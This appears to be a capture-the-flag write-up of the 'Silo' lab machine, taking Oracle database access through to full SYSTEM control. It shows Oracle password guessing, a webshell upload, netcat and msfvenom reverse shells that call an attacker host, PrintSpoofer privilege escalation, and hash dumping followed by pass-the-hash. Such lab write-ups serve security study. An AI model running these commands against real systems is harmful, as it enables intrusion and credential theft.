






# Silo

## Machine Info



## Recon

### port scan

- Oracle TNS listener 11.2.0.2.0
- Oracle XML DB Enterprise Edition httpd

```console
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http         Oracle XML DB Enterprise Edition httpd
|_http-server-header: Oracle XML DB/Oracle Database
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=XDB
|_http-title: 400 Bad Request
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows 2012|2008|Vista|7|8.1 (94%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2008:r2:sp1 cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (94%), Microsoft Windows Server 2008 R2 SP1 (92%), Microsoft Windows Server 2012 or Server 2012 R2 (91%), Microsoft Windows Vista SP1 (89%), Microsoft Windows Server 2012 Data Center (88%), Microsoft Windows 7 SP1 (87%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 (87%), Microsoft Windows Server 2012 (87%), Microsoft Windows Windows 7 SP1 (87%), Microsoft Windows Vista Home Premium SP1, Windows 7, or Windows Server 2008 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### SQLPlus Prepare

> SQL*Plus is an interactive and batch query tool that is installed with every Oracle Database Server or Client installation. It has a command-line user interface, a Windows Graphical User Interface (GUI) and the *i*SQL*Plus web-based user interface. SQL*Plus has its own commands and environment, and it provides access to the Oracle Database.
>
> [SQL*Plus Quick Start (oracle.com)](https://docs.oracle.com/cd/B14117_01/server.101/b12170/qstart.htm)
>
> [Oracle Reference: SQL*Plus](https://docs.oracle.com/en/database/oracle/oracle-database/23/sqpug/using-SQL-Plus.html)
>
> [Install SQLplus on Linux](https://www.geeksforgeeks.org/how-to-install-sqlplus-on-linux/)

```console
└─╼$ sqlplus -V
SQL*Plus: Release 21.0.0.0.0 - Production
Version 21.4.0.0.0
```

### ODAT Prepare

> [quentinhardy/odat: ODAT: Oracle Database Attacking Tool (github.com)](https://github.com/quentinhardy/odat)
>
> https://github.com/quentinhardy/odat/wiki/tnspoison

**ODAT** = Oracle Database Attacking Tool



```console
$ odat-libc2.17-x86_64 -h
            _  __   _  ___
           / \|  \ / \|_ _|
          ( o ) o ) o || |
           \_/|__/|_n_||_|
-------------------------------------------
  _        __           _           ___
 / \      |  \         / \         |_ _|
( o )       o )         o |         | |
 \_/racle |__/atabase |_n_|ttacking |_|ool
-------------------------------------------

By Quentin Hardy (quentin.hardy@protonmail.com or quentin.hardy@bt.com)

    all               to run all modules in order to know what it is possible to do
    tnscmd            to communicate with the TNS listener
    tnspoison         to exploit TNS poisoning attack (SID required)
    sidguesser        to know valid SIDs
    snguesser         to know valid Service Name(s)
    passwordguesser   to know valid credentials
    utlhttp           to send HTTP requests or to scan ports
    httpuritype       to send HTTP requests or to scan ports
    utltcp            to scan ports
    ctxsys            to read files
    externaltable     to read files or to execute system commands/scripts
    dbmsxslprocessor  to upload files
    dbmsadvisor       to upload files
    utlfile           to download/upload/delete files
    dbmsscheduler     to execute system commands without a standard output
    java              to execute system commands
    passwordstealer   to get hashed Oracle passwords
    oradbg            to execute a bin or script
    dbmslob           to download files
    stealremotepwds   to steal hashed passwords thanks an authentication sniffing (CVE-2012-3137)
    userlikepwd       to try each Oracle username stored in the DB like the corresponding pwd
    smb               to capture the SMB authentication
    privesc           to gain elevated access
    cve               to exploit a CVE
    search            to search in databases, tables and columns
    unwrapper         to unwrap PL/SQL source code (no for 9i version)
    clean             clean traces and logs
```

## Foothold

### Oracle Database Attack

Firstly, get the valid sids: `XE`

```console
└─╼$ ./odat-libc2.17-x86_64 sidguesser -s 10.129.95.188 -p 1521

[1] (10.129.95.188:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.129.95.188:1521 server
[+] 'XE' is a valid SID. Continue...                            ######################################## | ETA:  00:00:06
100% |###################################################################################################| Time: 00:10:51
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.129.95.188:1521)
100% |###################################################################################################| Time: 00:00:21
```

Next, test potential vulnerability: CVE-2012-1675

> https://www.oracle.com/security-alerts/alert-cve-2012-1675.html
> https://vulners.com/n0where/N0WHERE:172575
> https://github.com/bongbongco/CVE-2012-1675

```console
└─╼$ sudo nmap -Pn -sT --script=+oracle-tns-poison -p 1521 $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-20 02:46 HKT
...
PORT     STATE SERVICE
1521/tcp open  oracle
|_oracle-tns-poison: Host is vulnerable!
```

```console
./odat-libc2.17-x86_64 tnspoison -s 10.129.95.188 -d XE --test-module

└─╼$ ./odat-libc2.17-x86_64 tnspoison -s 10.129.95.188 -d XE --test-module
[1] (10.129.95.188:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning
```

Exploit failed:

```console
└─╼$ ./odat-libc2.17-x86_64 tnspoison -s 192.168.56.101 -d XE --poison
[1] (192.168.56.101:1521): Local proxy on port 1522 and TNS poisoning attack to 192.168.56.101:1521 are starting. Waiting for connections...
03:22:36 CRITICAL -: Connection Timeout: The server has not responded to the CONNECT_DATA packet send
```

Then, try to use odat to crack the username and password using [passwordguesser](https://github.com/quentinhardy/odat/wiki/passwordguesser).

```console
└─╼$ ./odat-libc2.17-x86_64 passwordguesser -s 10.129.95.188 -d XE

[1] (10.129.95.188:1521): Searching valid accounts on the 10.129.95.188 server, port 1521
The login cis has already been tested at least once. What do you want to do:                             | ETA:  00:25:30
[!] Notice: 'ctxsys' account is locked, so skipping this username for password                           | ETA:  00:37:40
[!] Notice: 'dbsnmp' account is locked, so skipping this username for password                           | ETA:  00:35:37
[!] Notice: 'dip' account is locked, so skipping this username for password                              | ETA:  00:32:46
[!] Notice: 'hr' account is locked, so skipping this username for password                               | ETA:  00:24:43
[!] Notice: 'mdsys' account is locked, so skipping this username for password                            | ETA:  00:18:10
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password                       | ETA:  00:13:50
[!] Notice: 'outln' account is locked, so skipping this username for password                            | ETA:  00:12:20
[+] Valid credentials found: scott/tiger. Continue...                                                    | ETA:  00:06:40
[!] Notice: 'xdb' account is locked, so skipping this username for password                              | ETA:  00:01:18
100% |###################################################################################################| Time: 00:32:44
[+] Accounts found on 10.129.95.188:1521/sid:XE:
scott/tiger
```

**Connect** to oracle database with found credential and discover to be able to connect as database **admin** using `as sysdba` (sqlplus) or `--sysdba` (odat)

```console
└─╼$ sqlplus scott/tiger@10.129.95.188:1521/XE
SQL*Plus: Release 21.0.0.0.0 - Production on Tue Feb 20 04:08:08 2024
Version 21.4.0.0.0
Copyright (c) 1982, 2021, Oracle.  All rights reserved.
ERROR:
ORA-28002: the password will expire within 7 days
Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO

----------------------------------------------------------------------------

└─╼$ sqlplus scott/tiger@10.129.95.188:1521/XE as sysdba
...
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
SYS                            EXP_FULL_DATABASE              YES YES NO
SYS                            GATHER_SYSTEM_STATISTICS       YES YES NO
SYS                            HS_ADMIN_EXECUTE_ROLE          YES YES NO
SYS                            HS_ADMIN_ROLE                  YES YES NO
SYS                            HS_ADMIN_SELECT_ROLE           YES YES NO
SYS                            IMP_FULL_DATABASE              YES YES NO
SYS                            LOGSTDBY_ADMINISTRATOR         YES YES NO
SYS                            OEM_ADVISOR                    YES YES NO
SYS                            OEM_MONITOR                    YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            PLUSTRACE                      YES YES NO
SYS                            RECOVERY_CATALOG_OWNER         YES YES NO
SYS                            RESOURCE                       YES YES NO
SYS                            SCHEDULER_ADMIN                YES YES NO
SYS                            SELECT_CATALOG_ROLE            YES YES NO
SYS                            XDBADMIN                       YES YES NO
SYS                            XDB_SET_INVOKER                YES YES NO
SYS                            XDB_WEBSERVICES                YES YES NO
SYS                            XDB_WEBSERVICES_OVER_HTTP      YES YES NO
SYS                            XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO

32 rows selected.
```

### Webshell Upload by Oracle sysdba

**POC**: Interaction with local file system with Oracle sysdba

1. READ: able to read file on Windows

```console
└─╼$ python odat.py utlfile -s 10.129.133.187 -U scott -P tiger -d XE --sysdba --getFile "C://windows//system32//drivers//etc" hosts /tmp/hosts

[1] (10.129.133.187:1521): Read the hosts file stored in C://windows//system32//drivers//etc on the 10.129.133.187 server
[+] Data stored in the hosts file sored in C://windows//system32//drivers//etc (copied in /tmp/hosts locally):
b"# Copyright (c) 1993-2009 Microsoft Corp.\n#\n# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.\n#\n# This file contains the mappings of IP addresses to host names. Each\n# entry should be kept on an individual line. The IP address should\n# be placed in the first column followed by the corresponding host name.\n# The IP address and the host name should be separated by at least one\n# space.\n#\n# Additionally, comments (such as these) may be inserted on individual\n# lines or following the machine name denoted by a '#' symbol.\n#\n# For example:\n#\n#      102.54.94.97     rhino.acme.com          # source server\n#       38.25.63.10     x.acme.com              # x client host\n\n# localhost name resolution is handled within DNS itself.\n#\t127.0.0.1       localhost\n#\t::1             localhost\n"
```

2. WRITE: able to write file on Windows -> read webshell

```console
└─╼$ python odat.py utlfile -s 10.129.133.187 -U scott -P tiger -d XE --sysdba --putFile "C:\\inetpub\\wwwroot" qwe.txt qwe.txt

[1] (10.129.133.187:1521): Put the qwe.txt local file in the C:\inetpub\wwwroot folder like qwe.txt on the 10.129.133.187 server
[+] The qwe.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.133.187 server like the qwe.txt file

└─╼$ curl http://10.129.133.187/qwe.txt
this is qwe.
```

**Exploit**: write aspx webshell into IIS server directory

```console
└─╼$ python odat.py utlfile -s 10.129.133.187 -U scott -P tiger -d XE --sysdba --putFile "C:\\inetpub\\wwwroot" shell.aspx /usr/share/webshells/aspx/cmdasp.aspx

[1] (10.129.133.187:1521): Put the /usr/share/webshells/aspx/cmdasp.aspx local file in the C:\inetpub\wwwroot folder like shell.aspx on the 10.129.133.187 server
[+] The /usr/share/webshells/aspx/cmdasp.aspx file was created on the C:\inetpub\wwwroot directory on the 10.129.133.187 server like the shell.aspx file
```



### Reverse Shell

Command: `\\10.10.16.24\qwe\nc64.exe -e cmd.exe 10.10.16.24 1234`

- enabled local smb server to provide nc

```console
└─╼$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.133.187] 49164
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

## Privilege Escalation

### Enumeration

systeminfo

```console
Host Name:                 SILO
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
System Type:               x64-based PC
```

### Method1: Potato Priv Esca

- SeImpersonatePrivilege
- windows server 2012, x64
- Exploit program: https://github.com/itm4n/PrintSpoofer

```console
c:\windows\system32\inetsrv>\\10.10.16.24\qwe\PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

c:\>dir /s /b user.txt 2>null
c:\Documents and Settings\Phineas\Desktop\user.txt
c:\Users\Phineas\Desktop\user.txt

c:\>dir /s /b root.txt 2>null
c:\Documents and Settings\Administrator\Desktop\root.txt
c:\Users\Administrator\Desktop\root.txt
```

- msf to dump hash

```console
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
```

### Method2: hashdump from memdump

Find Oracle issue text file, download and check the content:

```console
c:\Users\Phineas\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 69B2-6341

 Directory of c:\Users\Phineas\Desktop

01/07/2018  02:03 PM    <DIR>          .
01/07/2018  02:03 PM    <DIR>          ..
01/05/2018  10:56 PM               300 Oracle issue.txt
02/19/2024  09:22 PM                34 user.txt
               2 File(s)            334 bytes
               2 Dir(s)   7,041,503,232 bytes free
```

Get a dropbox link and password -> download and find this is a Windows memory dump file:





> **SILO-20180105-221806.dmp**: MS Windows 64bit crash dump, version 15.9600, 2 processors, DumpType (0x1), 261996 pages
>
> **Volatility** is an open-source memory forensics framework that can analyze exported memory images. By accessing kernel data structures and utilizing plugins, it provides detailed information about the memory and the system's operational state. Plugins can be used to obtain in-depth details of memory and the running state of systems, making it suitable for memory forensics on various operating systems such as Windows, Linux, Mac OSX, Android, and others.
>
> - https://www.volatilityfoundation.org/
>
> - https://github.com/volatilityfoundation/volatility3

1. Use volatility3 to check memdump's windows info to insure this is from this machine:

```console
└─╼$ python ~/pwk/tools/volatility3/vol.py -f SILO-20180105-221806.dmp windows.info
...
Variable        Value

Kernel Base     0xf8007828a000
DTB     0x1a7000
Symbols file:///mnt/hgfs/share/pwk/tools/volatility3/volatility3/symbols/windows/ntkrnlmp.pdb/A9BBA3C139724A738BE17665DB4393CA-1.json.xz
Is64Bit True
IsPAE   False
layer_name      0 WindowsIntel32e
memory_layer    1 WindowsCrashDump64Layer
base_layer      2 FileLayer
KdVersionBlock  0xf80078520d90
Major/Minor     15.9600
MachineType     34404
KeNumberProcessors      2
SystemTime      2018-01-05 22:18:07
NtSystemRoot    C:\Windows
NtProductType   NtProductServer
NtMajorVersion  6
NtMinorVersion  3
PE MajorOperatingSystemVersion  6
PE MinorOperatingSystemVersion  3
PE Machine      34404
PE TimeDateStamp        Thu Aug 22 08:52:38 2013
```

2. Use volatility3 to dump user hashed from memory

```console
└─╼$ python ~/pwk/tools/volatility3/vol.py -f SILO-20180105-221806.dmp windows.hashdump.Hashdump
Volatility 3 Framework 2.6.0
Progress:  100.00               PDB scanning finished
User    rid     lmhash  nthash

Administrator   500     aad3b435b51404eeaad3b435b51404ee        9e730375b7cbcebf74ae46481e07b0c7
Guest   501     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
Phineas 1002    aad3b435b51404eeaad3b435b51404ee        8eacdd67b77749e65d3b3d5c110b0969
```

3. Connect to Windows as admin using psexec

```console
└─╼$ impacket-psexec administrator@10.129.133.187 -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.133.187.....
[*] Found writable share ADMIN$
[*] Uploading file uRZMQZJL.exe
[*] Opening SVCManager on 10.129.133.187.....
[*] Creating service mzZX on 10.129.133.187.....
[*] Starting service mzZX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

### Method3: Oracle DB Hosted by Admin

Enumerate processes:

- w3wp: IIS server -> hosted by user
- oracle, OraClrAgnt, TNSLSNR: orcale database -> hosted by N/A not user -> host by **admin** (guess)
  because only two users in this machine: defaultapppool, admin



Hint: Uploading file using oracle sysdba has some restrictions: no '\n' and no more than xxx bytes.

**Exploit**: Generate stageless executable file of reverse shell, copy (download) the generated file into Windows dir, and execute it using odat & receive shell using nc:

```console
└─╼$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.24 LPORT=6666 -f exe -o admin.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: admin.exe

--------------------------------------------------------------------------------

c:\qwe>copy \\10.10.16.24\qwe\admin.exe qwe.exe
        1 file(s) copied.

--------------------------------------------------------------------------------

└─╼$ python odat.py externaltable -s 10.129.133.187 -d XE -U scott -P tiger --sysdba --exec 'c:\\qwe' qwe.exe

[1] (10.129.133.187:1521): Execute the qwe.exe command stored in the c:\\qwe path

--------------------------------------------------------------------------------

└─╼$ sudo rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.133.187] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\oraclexe\app\oracle\product\11.2.0\server\DATABASE>whoami
whoami
nt authority\system
```

## Exploit Chain

port scan -> oracle database -> exploit using odat: guest username&password -> sqlplus to login as sysdba -> webshell upload & reverse shell triggering -> user shell -> (1) rotten potato; (2) issue with leaked dropbox file -> volatility3 to get hashdump from memdump; (3) enum oracle admin-priv -> execute reverse shell by odat -> admin privilege shell

## Beyond Root

### Oracle database User Accounts

- [Managing Users and Security](https://docs.oracle.com/cd/E17781_01/server.112/e18804/users_secure.htm)

- [SYS, SYSDBA, SYSOPER, SYSTEM](https://asktom.oracle.com/ords/f?p=100:11:0%3A%3A%3A%3AP11_QUESTION_ID:2659418700346202574)

> `sys` and `system` are "real schemas", there is a user `SYS` and a user `SYSTEM`.
>
> In general, unless the documentation tells you, you will NEVER LOG IN as sys or system, they are our internal data dictionary accounts and not for your use. You will be best served by forgetting they exist.
>
> sysdba and sysoper are ROLES - they are not users, not schemas. The SYSDBA role is like "root" on unix or "Administrator" on Windows. It sees all, can do all. Internally, if you connect as sysdba, your schema name will appear to be SYS.
>
> In real life, you hardly EVER need sysdba - typically only during an upgrade or patch.
>
> sysoper is another role, if you connect as sysoper, you'll be in a schema "public" and will only be able to do things granted to public AND start/stop the database. sysoper is something you should use to startup and shutdown. You'll use sysoper much more often than sysdba.
>
> do not grant sysdba to anyone unless and until you have absolutely verified they have the NEED for sysdba - the same with sysoper.

### Impacket-psexec and User hash

The `psexec` tool in Impacket emulates the functionality of Windows' PsExec. PsExec is a tool within the Sysinternals Suite that allows users to execute programs on remote systems without the need for manual client software installation.

Impacket's `psexec` tool communicates using the SMB (Server Message Block) protocol and DCOM (Distributed Component Object Model). With these technologies, it can execute commands or programs on remote Windows computers. The tool is commonly used for legitimate system administration but can also be exploited by attackers for lateral movement within a network.

Using Impacket's `psexec` tool for remote code execution typically involves the following steps:

1. **Authentication**: First, the tool requires valid username and password credentials or hashes for authenticating with the remote system.
2. **Session Establishment**: Once authenticated, it establishes a session to communicate with the SMB service of the target system.
